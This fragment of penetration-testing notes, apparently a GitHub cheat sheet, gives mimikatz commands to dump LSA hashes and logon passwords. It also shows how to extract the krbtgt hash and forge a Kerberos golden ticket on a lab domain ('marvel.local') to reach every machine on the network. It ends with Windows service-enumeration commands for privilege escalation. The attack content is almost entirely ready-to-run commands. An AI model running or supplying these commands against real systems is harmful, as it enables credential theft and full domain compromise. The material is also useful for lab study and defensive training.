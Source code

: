 Dump hashes

```
lsadump::lsa /patch
```

Login passwords

```
mimikatz # sekurlsa::logonpasswords
```

Take hashes offline and crack the hashes or run attacks like pass the hash.

[Further Information](https://github.com/gentilkiwi/mimikatz/wiki)


### Golden Ticket

Load mimikatz.

```
privilege::debug
lsadump::lsa /inject /name:krbtgt
```
This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket.

Copy the SID of the domain and the NTLM hash of the ticket granting ticket account

```
kerberos::golden /User:Administrator /domain:marvel.local /sid:SID /krbtgt:NTLMHASH /id:500 /ptt

After passing the ticket successfuly open a new session (on the mimikatz prompt)

misc::cmd
```
Access other Machines! - You will now have another command prompt with access to all other machines on the network.
## Service Exploits

Let's start by looking for non-default services:

```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```

```
To verify service permissions

.\accesschk.exe /accepteula -uwcqv user daclsvc

Query service configuration

sc qc daclsvc

Check service status

sc query daclsvc

```
